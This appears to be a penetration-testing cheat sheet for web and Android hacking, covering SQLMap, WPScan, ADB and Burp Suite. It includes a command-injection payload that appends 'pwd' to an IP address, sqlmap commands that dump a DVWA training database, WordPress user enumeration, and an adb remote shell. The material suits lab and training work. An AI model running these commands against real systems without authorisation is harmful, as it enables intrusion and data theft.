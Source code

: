 # 🕸️ Web and Android Hacking

## Tools

* SQLMap: For finding SQL Injection Vulnerabilities
* Wpscan: Scanning and Finding issues in wordpress websites
* ADB: For connecting Android devices to PC and binary analysis
* Burpsuite: For analysing and manipulating the traffic

&#x20;

## Command Injection

```
8.8.8.8;pwd
```

## SQL Injection

### SQLMap

#### SQLMap Command Generator (Online)

* [https://acorzo1983.github.io/SQLMapCG/](https://acorzo1983.github.io/SQLMapCG/)

#### Get Databases

```
sqlmap -r req.txt --dbs
```

#### Get Database Information

```
sqlmap -r req.txt -D dvwa
```

#### Get the Database Tables

```
sqlmap -r req.txt -D dvwa --tables
```

#### Get the Columns

```
sqlmap -r req.txt -D dvwa --tables --columns
```

#### Dump the information

```
sqlmap -r req.txt -D dvwa --dump
```



## WpScan

#### Help Menu

```
wpscan -h
```

#### Enumerate a website

```
wpscan --url <target url> --enumerate u
```



## ADB

#### List the Devices

```
adb devices
```

#### Connect to the Android Device

```
adb connect <ip address>:5555
```

#### Get Shell

```
adb shell
```

